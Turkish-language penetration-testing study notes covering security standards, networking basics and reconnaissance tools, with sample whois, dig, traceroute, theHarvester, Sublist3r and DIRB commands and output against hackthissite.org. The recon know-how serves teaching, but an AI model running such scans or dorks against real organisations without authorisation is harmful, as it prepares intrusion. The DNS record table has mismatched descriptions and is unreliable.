`                            `▪ Kimlik Doğrulaması - Kimlik bilgilerine dayalı tanımlama ve yetkilendirme sağlar. 

`                            `▪ Tazminat - Kayıp veya hasarlara karşı sözleşmeye dayalı koruma sağlanır. 

`                            `▪ Boyun eğdirme - Etkileşimlerin varlık sahibi tarafından tanımlanan süreçlere göre gerçekleşmesini sağlar. 

`                            `▪ Süreklilik - Arıza bozulması durumunda varlıklarla etkileşimi korur. 

`                            `▪ Esneklik - Varlıkları yolsuzluk ve başarısızlıktan korur

`                    `**• OSSTM Sınıf B - Süreç Kontrolleri** 

`                            `o Reddetmeme - Katılımcıların eylemlerini reddetmesini önler.

`                            `o Confidentiality - Bir varlığı yalnızca katılımcıların bilmesini sağlar. 

`                            `o Privacy - Varlığa yalnızca katılımcıların erişebilmesini sağlar. 

`                            `o Bütünlük - Varlıkların ve süreçlerin ne zaman değiştiğini yalnızca katılımcıların bilmesini sağlar.

`                            `o Alarm - Etkileşimler gerçekleştiğinde katılımcıları bilgilendirir.

**PCI-DSS**

Kredi Kartları, ATM kartları ve diğer POS kartlarını kullanan kuruluşlar için **'Ödeme Kartı Endüstrisi Veri Güvenliği Standardı'** Standardı.

**ISO 27001**

Bu Uluslararası Standart, bir bilgi güvenliği yönetim sisteminin kurulması, uygulanması, sürdürülmesi ve sürekli iyileştirilmesi için gerekli şartları sağlamak üzere hazırlanmıştır.

**ISO 27002 ve 17799**

BS799'a dayanır, ancak güvenlik hedeflerine odaklanır ve sektördeki en iyi uygulamalara dayalı güvenlik kontrolleri sağlar.

**HIPAA**

**'Sağlık Sigortası Taşınabilirlik ve Sorumluluk Yasası'**, doktorlar, hastaneler ve sigorta sağlayıcıları arasında paylaşılan hasta tıbbi kayıtlarını ve sağlık bilgilerini korumak için gizlilik standartlarını belirleyen bir yasadır.

**SOX**

Halka açık şirketlerin bağımsız denetimlere tabi tutulmasını ve finansal bilgileri uygun şekilde ifşa etmesini gerektiren **'Sarbanes-Oxley Yasası'.**

**DMCA**

**'Dijital Milenyum Telif Hakkı Yasası',** Dünya Fikri Mülkiyet Örgütü'nün 1996 tarihli iki anlaşmasını uygulayan 1998 tarihli bir Amerika Birleşik Devletleri telif hakkı yasasıdır. Telif hakkıyla korunan çalışmalara erişimi kontrol eden önlemleri atlatmayı amaçlayan teknolojinin, cihazların veya hizmetlerin üretimini ve yayılmasını suç haline getirir.

**FISMA**

**"Federal Bilgi Güvenliği Modernizasyonu AC 2002"** 2004 yılında Bilgi Güvenliği Politikalarının Uygulanması ile ilgili İç Güvenlik Bakanlığı'nın yetkisini kodlamak için güncellenen bir yasa.

**NIST-800-53**

FISMA'nın uygulanmasına yardımcı olmak için oluşturulan federal bilgi sistemleri için güvenlik ve gizlilik kontrollerini kataloglar.

**FITARA**

**'Federal Bilgi Teknolojisi Edinme Reformu Yasası'** US GOV'un teknolojiyi nasıl satın aldığını belirleyen çerçeveyi değiştirmeyi amaçlayan 2013 tarihli bir yasa tasarısı.

**COBIT**

ISACA ve ITGI tarafından oluşturulan '**Bilgi ve İlgili Teknoloji için Kontrol Nesnesi'** BT Yönetişimi çerçevesi ve araç seti.

**GLBA**

Finansal kurumlar tarafından toplanan kişisel bilgilerin gizliliğini ve bütünlüğünü koruyan **'ABD Gramm-Leach-Bliley Yasası'.**

**CSIRT**

**'Bilgisayar Güvenliği Olay Müdahale Ekibi'** CSIRT, bilgisayar güvenliği olaylarını bildirirken tek bir iletişim noktası sağladı.

**ITIL**

**'Bilgi Teknolojileri Altyapı Kütüphanesi'** - 80'lerde geliştirilen ve BT yönetim prosedürlerini standartlaştıran operasyonel bir çerçevedir.

**Temel Bigi**

**OSI Modeli ve TCP Modeli**

`            `• İletişim prosedürünü daha küçük ve daha basit bileşenlere bölerek iletişim sisteminin işlevlerini tanımlamak için tasarlanmıştır.

`            `• TCP/IP modeli, OSI modelinin kısa bir versiyonudur. OSI modelindeki yedi katmanın aksine dört katman içerir.

**Layer    Ciaz Türü     OSI Katmanı    TCP/IP model   TCP/IP Yeni (şiddetli)**   **Protokol   PDU** 

7            Gateway        Application           Application           Application                  HTTP,       Data

`                                                                                                                                     `FTP,

`                                                                                                                                     `POP,

`                                                                                                                                     `SMTP,

`                                                                                                                                     `DNS,

`                                                                                                                                     `RIP

6                     -        Presentation           Application           Application                     HTTP,       Data

`                                                                                                                                     `FTP,

`                                                                                                                                     `POP,

`                                                                                                                                     `SMTP,

`                                                                                                                                     `DNS,

`                                                                                                                                     `RIP,

`                                                                                                                                     `MIME

5                     -         Session           Application           Application                            HTTP,       Data

`                                                                                                                                     `FTP,

`                                                                                                                                     `POP,

`                                                                                                                                     `SMTP,

`                                                                                                                                     `DNS,

`                                                                                                                                     `RIP,

`                                                                                                                                     `SCP

4                     -         Transport           Transport           Transport                              TCP/UDP,   Segments

3               Router       Network           Internet           Network                                    IP,               Packets

`                                                                                                                                     `ARP,

`                                                                                                                                     `ICMP,

`                                                                                                                                     `IGMP,

2             Switch/bridge           Data Link           Link           Data Link                       Ethernet,     Frames

`                                                                                                                                     `Token,

`                                                                                                                                     `Ring,

1         Hubs/Repeater    Physical          Link           Physical                                        Ethernet,       Bits

`                                                                                                                                     `Token,

`                                                                                                                                     `Ring,

**TCP Handshake                                                                                                                  Üç Yollu El Sıkışma**

**    **TCP Bağlantısı kurma işlemi** 

`          `1. Host A, önerilen başlangıç sıra numarasına sahip bir SYN (senkronizasyon) paketini B hostuna gönderir.

`           `2. B hostu SYN mesajını alır, TCP header hem SYN hem de ACK bayrakları (SYN-ACK) ayarlanmış bir paket döndürür.

`            `3. Host A, SYN-ACK'yi alır, ACK (Teşekkür) paketini geri gönderir.

`            `4. B hostu ACK paketini alır ve bu aşamada bağlantı kurulur.

`      `**TCP Bağlantısının Sonlandırılması**

`            `1. Host A, verilerin gönderilmesinin tamamlandığını belirten bir FIN (bitiş) bayrağı gönderir.

`            `2. FIN paketini alan Host B, bağlantıyı sonlandırmaz, ancak 'pasif kapanış' (CLOSE\_WAIT) durumuna girer ve FIN için ACK'yı Host A'ya geri gönderir.

`            `3. Host A, (TIME\_WAIT) bir duruma girer ve Host  B'ye bir ACK gönderir.

`            `4. B Hostu , ACK'yı host A'dan alır ve bağlantıyı kapatır.

**TCP Flags**

Flag              Açınımı                                            Tanımlama

SYN         Synchronize            İlk iletişim sırasında ayarlayın. Parametrelerin ve sıra numaralarının                                                           müzakere edilmesi    

ACK        Acknowledgment     SYN bayrağı için bir onay olarak ayarlayın. Her zaman ilk SYN'den                                                            sonra ayarlanır.

RST               Reset                Bir bağlantının her iki yönden de sonlandırılmasını zorlar.

FIN                Finish                İletişime yakın bitirmeye teklif 

PSH                Push                Arabelleğe alma endişesi olmadan verilerin teslimini zorlar

URG               Urgent             İçerideki veriler bant dışına gönderiliyor. Örnek olarak bir ileti iptal                                                             ediliyor

**Port Numaraları** 

- İnternet Atanmış Numaralar Kurumu (IANA) - tüm port numarası rezervasyonlarını listeleyen Hizmet Adı ve Aktarım Protokolü Port Numarası Kayıt Defterini tutar 
- Aralıklar (Ranges) 

o İyi bilinen bağlantı noktaları - 0 - 1023 

o Kayıtlı bağlantı noktaları - 1024 - 49.151 

o Dinamik bağlantı noktaları - 49.152 - 65.535 

Port Number 	Protocol 	Transport Protocol 

20/21 		FTP 		TCP 

- Bir hizmetin, belirli bir bağlantı noktası açık olduğunda o bağlantı noktasını dinlediği söylenir. 

`       `o Bir hizmet bağlantı kurduktan sonra, bağlantı noktasına yerleşir. 

`       `o Netstat komutu: 

`    `Bilgisayardaki açık portları gösterir 

`     `▪ netstat -an bağlantıları sayısal olarak görüntüle 

`     `▪ netstat -b açık bağlantı noktasına bağlı yürütülebilir dosyaları görüntüler (yalnızca  

`        `yönetici) 

**Alt ağ oluşturma** 

\- IPv4 Ana Adres Türleri 

o Unicast - tek bir alıcı tarafından gerçekleştirilir 

o Çok noktaya yayın - belirli bir grubun üyeleri tarafından gerçekleştirilir 

o Yayın - ağdaki herkes tarafından harekete geçirilir 

\* Sınırlı - etki alanındaki her sisteme teslim edilir 

(255.255.255.255) 

\*Yönlendirilmiş - bir alt ağdaki tüm cihazlara iletilir ve bu cihazı kullanır 

yayın adresi 

\- Alt ağ maskesi - belirli bir alt ağda kaç adresin mevcut olduğunu belirler 

o Üç yöntemle gösterilir. 

▪ Ondalık - 255.240.0.0 

İkili - 11111111.11110000.00000000.00000000 

▪ CIDR - x.x.x.x/12 (burada x.x.x.x bu aralıktaki bir ip adresidir) 

o Ana bilgisayar alanındaki tüm bitler 1 ise, adres yayın adresidir 

o Eğer hepsi 0 ise, bu ağ adresidir 

o Diğer herhangi bir kombinasyon aralıktaki bir adresi gösterir.

**Keşif ve Ayak izi (Parmak izi) bulma** 

**

**Ayak İzi** 

Footprinting, hedef bilgisayar sistemi veya ağı hakkında olası bilgileri toplamak için kullanılan keşif sürecinin bir parçasıdır. 

Bilgisayar güvenliği sözlüğünde kullanıldığında, "Footprinting" genellikle saldırı öncesi aşamalardan birini ifade eder; gerçek saldırıyı yapmadan önce gerçekleştirilen görevler. Footprinting için kullanılan araçlardan bazıları Sam Spade, nslookup, traceroute, Nmap ve neotrace. 

Ayak İzi Türleri: Aktif ve Pasif 

**- Aktif -** saldırganın cihaza veya ağa dokunmasını gerektirir 

o Sosyal mühendislik ve hedefle etkileşim gerektiren diğer iletişim 

**- Pasif -** kamuya açık kaynaklardan bilgi toplamaya yönelik tedbirler 

o Web siteleri, DNS kayıtları, ticari bilgi veri tabanları  

Footprinting aşağıdakilere yardımcı olur: 

**- Güvenlik Duruşunu Bilme** - Toplanan veriler, bir güvenlik duvarının varlığı, uygulamaların güvenlik yapılandırmaları vb. hakkında ayrıntılar gibi şirketin güvenlik duruşuna genel bir bakış elde etmemize yardımcı olacaktır. 

**- Saldırı Alanını Azaltma** - Belirli bir sistem yelpazesini tanımlayabilir ve yalnızca belirli hedeflere odaklanabilir. Bu, odaklandığımız sistem sayısını büyük ölçüde azaltacaktır. 

**- Güvenlik açıklarını belirleyin -** hedef kuruluşun sisteminde bulunan güvenlik açıklarını, tehditleri, boşlukları içeren bir bilgi veritabanı oluşturabiliriz. 

**- Ağ haritasını çizin -** hedef kuruluştaki ağların topolojisini, güvenilir yönlendiricileri, sunucu ve ağların varlığını kapsayan bir ağ haritasının çizilmesine yardımcı olur. Diğer bilgiler. 

Ayak izi hem pasif hem de aktif olabilir. Bir şirketin web sitesini incelemek pasif ayak izi bırakmaya örnek teşkil ederken, sosyal mühendislik yoluyla hassas bilgilere erişim sağlamaya çalışmak aktif bilgi toplamaya örnek teşkil eder. 

Bu aşamada, bir bilgisayar korsanı aşağıdaki bilgileri toplayabilir (yalnızca üst düzey bilgi): 

**- Alan adı** 

**- IP Adresleri** 

**- İsim Alanları** 

**- Çalışan bilgileri** 

**- Telefon numaraları** 

**- E-postalar** 

**- İş Bilgileri** 

Olabilir: 

**- Anonim -** kendiniz hakkında hiçbir şey açıklamadan bilgi toplama 

**- Takma ad -** eylemleriniz için suçu başkasının üstlenmesini sağlamak 

**Rekabetçi İstihbarat -** işletmeler tarafından rakipler hakkında toplanan bilgiler 

**Alexa.com -** web siteleri hakkında istatistikler için kaynak 

**Ayakizinin amaçları** 

- **Network** 

o DNS 

o IP networks 

o Acessible Systems 

o Websites 

o Access Control 

o VPN Endpoints 

o Firewall vendors 

o IDS Systems 

o Routing/Routed Protocols 

o Phone System (Analog/VoIP) 

**Organizasyon** 

o Organizasyon Yapısı 

o Web Siteleri 

o Telefon Numaraları 

o Dizin Bilgileri 

o Ofis Konumları 

o Şirket Geçmişi 

o Ticari Birlikler 

**Hosts**

o Dinleme Hizmetleri 

o İşletim Sistemi Sürümleri 

o İnternet Erişilebilirliği 

o Numaralandırılmış Bilgiler 

o SNMP Bilgisi 

o Kullanıcılar/Gruplar 

o Mobil Cihazlar 

**Yöntemler ve Araçlar** 

**Arama Motorları** 

\- NetCraft - Blueprint teknolojileri hakkında kapsamlı bir bilgi listesi ve hedef web sitesi hakkında bilgi. 

**İş Arama Siteleri** - İş arama sitelerin üzerinden pozisyon ile ilgili bilgi elde edilir. 

**- Google araması | Google Dorks:** 

o filetype: - dosya türlerini arar 

o index of - dizin listeleri 

o info: - Google'ın sayfa hakkındaki bilgilerini içerir 

o intitle: - başlıktaki dize 

o inurl: - url içinde dize 

o link: - bağlantılı sayfaları bulur 

o related: - benzer sayfaları bulur 

o site: - o siteye özel sayfaları bulur 

**Örnek :** 

GHDB, Google Dorks'u ve gerçek dünya senaryosunda nasıl yapıldığını öğrenmek için çok iyidir 

**- Metagoofil** - Meta etiketlerdeki bilgileri bulmak için Google hack'lerini kullanan komut satırı arayüzü (etki alanı, dosya türü vb.; Terminal için bir google dorks) 

**Web Sitesi Ayak İzi** 

**- Web yansıtma | Web Sitesi Klonlama -** çevrimdışı ayrı testlere olanak sağlar 

o **HTTrack -** CLI sürümünü veya Web Arayüzü sürümünü kullanabilirsiniz o Wget - Linux komutu 

▪ **wget** -mk -w 10 http://hackthissite.org/ 

**o Black Widow** 

**o WebRipper** 

**o Teleport Pro** 

**o Backstreet Browser** 

**- Archive.org /** Wayback makinesi 

\- Muhtemelen artık kaldırılmış hassas bilgiler içeren çeşitli tarihlere ait önbelleğe alınmış web siteleri sağlar. 

**o Wayback Machine** -> Google.com: 

**E-posta Ayak İzi** 

**- E-posta başlığı** - sunucuları ve bu sunucuların konumlarını gösterebilir 

o E-posta başlıkları sağlayabilir: İsimler, **Adresler (IP, e-posta), Posta sunucuları, Zaman damgaları, Kimlik doğrulama vb.** 

▪ 

**o EmailTrackerPro,** bir e-postayı gerçek çıkış noktasına kadar takip eden bir Windows yazılımıdır: 

**E-posta takibi -** hizmetler, e-postanın açıldığı IP adresi, nereye gittiği vb. dahil olmak üzere çeşitli bilgileri takip edebilir. 
**

**DNS Ayak İzi** 

\- Ports 

` `o İsim arama - UDP 53 o Bölge aktarımı - TCP 53 

\- Bölge aktarımı tüm kayıtları çoğaltır 

\- İsim çözümleyiciler istekleri yanıtlar 

\- Yetkili Sunucular bir ad alanı için tüm kayıtları tutar 

\- DNS Kayıt Türleri 

|İsim |Açıklama |Amaç |
| :-: | :-: | :-: |
|SRV |Service |Belirli bir hizmete işaret eder |
|SOA |Yetki Başlangıcı |Bir ad alanı için yetkili NS'yi belirtir |
|PTR |İşaretçi |Bir IP'yi bir ana bilgisayar adıyla eşler |
|NS |Ad Sunucusu |Bir ad alanı için ad sunucularını listeler E-posta sunucularını listeler |
|MX |Mail Exchange |Bir adı bir A kaydıyla eşler |
|CNAME |Kanonik İsim |Bir ana bilgisayar adını bir IP adresine eşler |
|A |Adres |Belirli bir hizmete işaret eder |

**\*DNS Zehirlenmesi -** istekleri bir makineye yönlendirmek için makinedeki önbelleği değiştirir kötü niyetli sunucu 

**- DNSSEC -** kayıtları şifreleyerek DNS zehirlenmesini önlemeye yardımcı olur 

**- SOA Kayıt Alanları** 

` `**o Kaynak Ana Bilgisayar** - birincil DNS'nin ana bilgisayar adı 

**o İletişim E-postası** - bölge dosyasından sorumlu kişinin e-postası 

**o Seri Numarası** - her değişiklikte artan revizyon numarası o Yenileme Zamanı - bir güncellemenin gerçekleşmesi gereken zaman 

**o Yeniden Deneme Süresi** - NS'nin bir arıza durumunda beklemesi gereken süre 

**o Sona Erme Süres**i - bir bölge transferinin tamamlanmasına izin verilen süre o TTL - bölge içindeki kayıtlar için minimum TTL 

\- IP Adres Yönetimi 

**o ARIN** - Kuzey Amerika 

**o APNIC** - Asya Pasifik 

**o RIPE** - Avrupa, Orta Doğu o LACNIC - Latin Amerika 

**o AfriNIC** - Afrika 

` `**- Whois -** komut satırından veya web arayüzünden alan adı için kayıt bilgilerini alır. 

o Kali'de whois CLI'da önceden yüklenmiştir; örneğin: whois google.com) 

o Windows'ta whois yapmak için SmartWhois GUI yazılımını veya domaintools.com gibi herhangi bir web sitesini kullanabilirsiniz 

**- Nslookup** - DNS sorguları gerçekleştirir; (nslookup Kali Linux'ta önceden yüklenmiştir) 

o nslookup www.hackthissite.org o Server: 192.168.63.2 

o Address: 192.168.63.2#53 o 

o Non-authoritative answer: 

o Name: www.hackthissite.org o Address: 137.74.187.103 

o Name: www.hackthissite.org o Address: 137.74.187.102 

o Name: www.hackthissite.org o Address: 137.74.187.100 

o Name: www.hackthissite.org o Address: 137.74.187.101 

o Name: www.hackthissite.org o Address: 137.74.187.104 

\*İlk iki satır mevcut DNS sunucumu gösterir; Döndürülen IP adresleri 'A kaydı'dır, yani alan adının IPvA adresidir; Alt satır NsLookup belirtilen DNS sunucusunu sorgular ve alan adıyla ilişkili istenen kayıtları alır. 

**\*Aşağıdaki DNS kayıt türleri Nslookup'ta kullanmak için özellikle yararlıdır:** 

|Tür |Açıklama |
| :- | :- |
|A |Domainin IPv4 adresi|
|AAAA |` `Domainin IPv6 adresi|
|CNAME |` `kurallı ad — bir alan adının diğeriyle eşlenmesine izin verir. Bu, birden fazla web sitesinin tek bir web sunucusuna başvurmasını sağlar.|
|MX |` `domain için e-posta işleyen sunucu|
|NS |domain için bir veya daha fazla yetkili ad sunucusu kaydı|
|TXT |` `DNS sunucusu dışında kullanılmak üzere bilgi içeren bir kayıt. İçerik name=value biçimini alır. Bu bilgiler, SPF ve DKIM gibi kimlik doğrulama şemaları da dahil olmak üzere birçok şey için kullanılır.|

**\*Nslookup - Etkileşimli mod bölge aktarımı** (Etkileşimli mod, kullanıcının çeşitli ana bilgisayarlar ve etki alanları hakkında bilgi için ad sunucularını sorgulamasına veya bir etki alanındaki ana bilgisayarların bir listesini yazdırmasına olanak tanır). 

▪ nslookup 

▪ server <IP Address> 

▪ set type = <DNS type> ▪ <target domain> 

o nslookup 

o > set type=AAAA 

o > www.hackthissite.org 

o Server: 192.168.63.2 

o Address: 192.168.63.2#53 

o 

o Non-authoritative answer: 

o Name: www.hackthissite.org 

o Address: 2001:41d0:8:ccd8:137:74:187:103 

o Name: www.hackthissite.org 

o Address: 2001:41d0:8:ccd8:137:74:187:102 o Name: www.hackthissite.org 

o Address: 2001:41d0:8:ccd8:137:74:187:101 o Name: www.hackthissite.org 

o Address: 2001:41d0:8:ccd8:137:74:187:100 o Name: www.hackthissite.org 

o Address: 2001:41d0:8:ccd8:137:74:187:104 

o 

- **Dig** - nslookup gibi unix tabanlı bir komut 

o dig <target> 

o dig www.hackthissite.org 

o 

o ; <<>> DiG 9.16.2-Debian <<>> www.hackthissite.org 

o ;; global options: +cmd 

o ;; Got answer: 

o ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 51391 

o ;; flags: qr rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 1 o 

o ;; OPT PSEUDOSECTION: 

o ; EDNS: version: 0, flags:; MBZ: 0x0005, udp: 4096 

o ;; QUESTION SECTION: 

o ;www.hackthissite.org. IN A 

o 

o ;; ANSWER SECTION: 

o www.hackthissite.org. 5 o www.hackthissite.org. 5 o www.hackthissite.org. 5 o www.hackthissite.org. 5 o www.hackthissite.org. 5 o 

IN      A 

IN      A 

IN      A 

IN      A 

IN      A 

137.74.187.104 

137.74.187.101 

137.74.187.100 

137.74.187.102 

137.74.187.103 

o ;; Query time: 11 msec 

o ;; SERVER: 192.168.63.2#53(192.168.63.2) o ;; WHEN: Tue Aug 11 15:05:01 EDT 2020 

o ;; MSG SIZE rcvd: 129   

o To get email records specify -t MX 

▪ dig <target> -t MX 

o To get zone transfer specify axfr 

**Ağ Ayak İzi** 

Kullanım örneği: 

\- IP adres aralığı bölgesel kayıt kuruluşundan alınabilir (örneğin: Amerika için ARIN, Avrupa için RIPE, vb.) 

\- Aracı sunucuları bulmak için traceroute kullanın 

o traceroute Windows'ta ICMP echo kullanır (tracert) 

o traceroute, Güvenlik Duvarlarını ve ağ yolunu tespit etmek için iyidir 

• IP address range can be obtained from regional registrar (e.g: ARIN for America, RIPE for Europe, etc) 

• Use traceroute to find intermediary servers 

o traceroute uses ICMP echo in Windows (tracert) 

o traceroute is good for detect Firewalls and the network path 

` `• traceroute -I nsa.gov 

` `o Specify target: traceroute <target> 

o In this case is used ICMP ECHO for tracerouting: -I 

traceroute -I nsa.gov 

traceroute to nsa.gov (104.83.73.99), 30 hops max, 60 byte packets 

1 192.168.63.2 (192.168.63.2) 0.194 ms 0.163 ms 0.150 ms 2 \*\*\* 

3 \*\*\* 

4 \*\*\* 5 \*\*\* 6 \*\*\* 7 \*\*\* 8 \*\*\* 9 \*\*\* 

10 \*\*\* 

11 a104-83-73-99.deploy.static.akamaitechnologies.com (104.83.73.99) 42.742 ms 42.666 ms 25.176 ms 

⚡︎**Windows command - tracert** ⚡︎**Linux Command - traceroute**  

**Diğer İlgili Araçlar** 

**OSRFramework** 

Hedef hakkında bilgi almak için açık kaynak istihbaratını kullanır. (Kullanıcı adı kontrolü, DNS aramaları, bilgi sızıntıları araştırması, derin web araması, düzenli ifadelerin çıkarılması ve diğerleri). 

**Web Spiders**  

Web sitesinden sayfalar vb. gibi bilgileri edinin. 

**Recon-ng**

**Recon-ng**, hedef bir kuruluştan ve personelinden bilgi almak için kullanılan web tabanlı açık kaynaklı bir keşif aracıdır. 

Açık kaynak web tabanlı keşiflerin otomatik olarak, hızlı ve kapsamlı bir şekilde gerçekleştirilebileceği güçlü bir ortam sağlar. 

**Metasploit Çerçevesi** 

Metasploit Framework, güvenlik açıkları hakkında bilgi sağlayan ve sızma testi ve IDS imzası geliştirmeye yardımcı olan bir araçtır; Bu, Recon araçları da sağlayan büyük bir çerçevedir. 

**theHarvester** 

theHarvester bir **OSINT** aracıdır; aşağıdaki gibi bilgi toplamak için kullanışlıdır: 

` `- E-postalar 

\- Subdomains

\- Hosts

\- Çalışan isimleri 

\- Açık portlar 

\- Arama motorları, PGP anahtar sunucuları ve SHODAN bilgisayar veritabanı gibi farklı genel kaynaklardan gelen banner'lar. 

Örnek Kullanım: 

• **theHarvester -d www.hackthissite.org -n -b google**  

o Issue theHarvester command: theHarvester o Specify the domain: -d <url> 
o Perform dns lookup: -n 
o Specify search engine/source: -b google  

|theHarvester -d www.hackthissite.org -n -b google table results already exists  |
| :- |
| |
|
\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\* \*\_\_\_\* \*||\_||\_\_ \_\_\_ /\ /\\_\_\_\_\_\_\_\_ \_\_\_\_\_ \_\_\_||\_\_\_\_\_\_\_ \* \*|\_\_| \_\/\_\ //\_//\_`|'\_\_\\//\_\/\_\_|\_\_/\_\'\_\_|\* \*||\_|||| \_\_//\_\_ /(\_||| \V/ \_\_/\\_\_\|| \_\_/| \* \* \\_\_|\_| |\_|\\_\_\_| \/ /\_/ \\_\_,\_|\_| \\_/ \\_\_\_||\_\_\_/\\_\_\\_\_\_|\_| \* \*\*  

\* theHarvester 3.1.0  \* Coded by Christian Martorella  \* Edge-Security Research  \* cmartorella@edge-security.com \*\* \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*  

[\*] Target: www.hackthissite.org 

[\*] Searching Google. 

`        `Searching 0 results. 

\*  \*  

\* \*  
|
|
Searching 100 results. 

`        `Searching 200 results. 

`        `Searching 300 results. 

`        `Searching 400 results. 

`        `Searching 500 results. 

[\*] No IPs found. 

[\*] Emails found: 2 

---------------------- 

 
|
ab790c1315@www.hackthissite.org 

staff@hackthissite.org 

[\*] Hosts found: 7 
\--------------------- 
0.loadbalancer.www.hackthissite.org: 
22www.hackthissite.org: 
2522www.hackthissite.org: 
253dwww.hackthissite.org: 
www.hackthissite.org:137.74.187.104, 137.74.187.100, 137.74.187.101, 137.74.187.103, 137.74.187.102  

x22www.hackthissite.org: 

[\*] Starting active queries. 
137.74.187.100 
[\*] Performing reverse lookup in 137.74.187.0/24 
module 'theHarvester.discovery.dnssearch' has no attribute 'DnsReverse'

**Sublist3r** 

Sublist3r, Google, Yahoo, Bing, Baidu ve Ask gibi birçok arama motorunu kullanarak alt alan adlarını numaralandırır. Sublist3r ayrıca Netcraft, Virustotal, ThreatCrowd, DNSdumpster ve ReverseDNS kullanarak alt alan adlarını numaralandırır 

Örnek kullanım: 

**python3 sublist3r.py -d hackthissite.org**  

 

o Specify the domain: -d <url>  

|
python3 sublist3r.py -d hackthissite.org 

\_\_\_\_ \_ \_\_ \_ \_\_\_\_\_ /\_\_\_|\_ \_||\_\_|(\_)\_\_\_||\_|\_\_\_/\_\_\_ \\_\_\_ \| | | | '\_ \| | / \_\_| \_\_| |\_ \| '\_\_|  

\_\_\_) | |\_| | |\_) | | \\_\_ \ |\_ \_\_\_) | | |\_\_\_\_/ \\_\_,\_|\_.\_\_/|\_|\_|\_\_\_/\\_\_|\_\_\_\_/|\_|  

# Coded By Ahmed Aboul-Ela - @aboul3la  

[-] Enumerating  [-] Searching now in Baidu.. [-] Searching now in Yahoo.. [-] Searching now in Google.. [-] Searching now in Bing.. [-] Searching now in Ask..  [-] Searching now in Netcraft..  

subdomains now for hackthissite.org 
|
| :- |
|
[-] Searching now in DNSdumpster..  [-] Searching now in Virustotal..  [-] Searching now in ThreatCrowd..  [-] Searching now in SSL Certificates.. [-] Searching now in PassiveDNS..  

[-] Total Unique Subdomains Found: 41 www.hackthissite.org admin.hackthissite.org api.hackthissite.org ctf.hackthissite.org  
|
vm-005.outbound.firewall.hackthissite.org 

vm-050.outbound.firewall.hackthissite.org 

vm-099.outbound.firewall.hackthissite.org 

vm-150.outbound.firewall.hackthissite.org 

vm-200.outbound.firewall.hackthissite.org 

forum.hackthissite.org 

forums.hackthissite.org 

git.hackthissite.org 

irc.hackthissite.org 

(...)  

**DIRB** 

DIRB bir Web İçerik Tarayıcısıdır. Mevcut (ve/veya gizli) Web Nesnelerini arar. Temel olarak, bir web sitesine karşı sözlük tabanlı bir saldırı / kaba kuvvet saldırısı başlatarak çalışır. 

web sunucusu ve yanıtı analiz etme. 

\- Web uygulamasında alt dizinleri bulmak için kullanışlıdır 

Örnek kullanım: 

**dirb https://www.hackthissite.org/ /usr/share/wordlists/dirb/small.txt**  

o Specify the url by issuing dirb command: dib <url> o Specify the wordlist: /path/to/wordlist  

|
dirb https://www.hackthissite.org/ /usr/share/wordlists/dirb/small.txt  

----------------- 

DIRB v2.22 

By The Dark Raver 

----------------- 

URL\_BASE: https://www.hackthissite.org/ WORDLIST\_FILES: /usr/share/wordlists/dirb/small.txt  

----------------- 

GENERATED WORDS: 959 

---- Scanning URL: https://www.hackthissite.org/ ----  + https://www.hackthissite.org/api (CODE:200|SIZE:10)  + https://www.hackthissite.org/blog (CODE:200|SIZE:20981)  + https://www.hackthissite.org/cgi-bin/ (CODE:403|SIZE:199)  
|
| :- |
| |
**Maltego**  

Maltego güçlü bir **OSINT** aracıdır, ağ, teknolojiler ve personel (e-posta, telefon numarası, twitter) aracılığıyla geniş bir bilgi türünü çıkarabilirsiniz. 

` `- Şunları yapabilirsiniz: 

o IP adresini tanımlama 

o Etki Alanı ve Etki Alanı Adı Şemasını Tanımlama 

o Sunucu Tarafı Teknolojisini Tanımlama 

o Hizmet Odaklı Mimari (SOA) bilgilerini tanımlama o Ad Sunucusunu tanımlama 

o Posta Eşanjörünü Tanımlayın 

o Coğrafi Konumun Belirlenmesi 

o Tüzel Kişileri Tanımlayın 

o E-posta adreslerini ve Telefon numaralarını keşfedin 

**Sosyal Mühendislik Çerçevesi (SEF)** 

Kimlik avı saldırıları ve sahte e-postalar oluşturmaya yardımcı olan açık kaynaklı bir Sosyal Mühendislik Çerçevesidir (SCRIPT). ve kimlik avı sayfaları, sahte e-posta, dosya eki olan sahte e-posta ve Sosyal Mühendislik Saldırısında size yardımcı olacak diğer şeyleri içerir.

**Web Tabanlı Recon** 

**NetCraft** 

Netcraft bir web sitesi analiz sunucusudur, bu web sitesi yardımıyla web sitesi hakkında temel ve önemli bilgileri buluruz: 

` `**- Background -** Bu, temel alan bilgilerini içerir. 

o Hangi işletim sistemi, Web sunucusu çalışıyor; Hangi ISP; 

**- Network -** Bu, IP Adresinden Alan adlarına ve ad sunucularına kadar olan bilgileri içerir. 

**- SSL/TLS -** Bu, hedefin ssl/tls durumunu verir 

**- Hosting History -** Bu, aşağıdakilerin barındırma geçmişi hakkında bilgi verir hedef 

**- Sender Polic Framework** (SPF) - Bu, alan adları adına kimlerin posta gönderebileceğini tanımlar 

**- DMARC** -Bu, etki alanı sahiplerinin kendi etki alanlarından kaynaklandığı iddia edilen postaların nasıl doğrulanması gerektiğini belirtmeleri için bir mekanizmadır 

**- Web İzleyicileri** - Bu izleyiciler, web üzerindeki bireysel kullanıcı davranışlarını izlemek için kullanılabilir Site Teknolojisi - Bu bölüm, aşağıdakilerle ilgili ayrıntıları içerir: 

o Bulut ve PaaS 

o Sunucu Tarafı teknolojileri (örn: PHP) 

o İstemci Tarafı teknolojileri (örn: JavaScript kütüphanesi) o CDN Bilgileri 

o CMS Bilgileri (örn: Wordpress, Joomla, vb.) o Mobil Teknolojiler 

o Web istatistikleri (ör: Web analizleri, koleksiyon, vb.) 

o Karakter kodlaması 

**Shodan** 

Shodan Google gibi geleneksel arama motorlarının aksine, tüm sitenizi dolaşmak için Web tarayıcılarını kullanır, ancak doğrudan İnternet'in arkasındaki kanala, çeşitli bağlantı noktası ekipmanı denetimlerine ve İnternet'i ve ilgili tüm sunucuları, kamerayı, yazıcıları, yönlendiricileri vb. aramayı asla durdurmaz. 

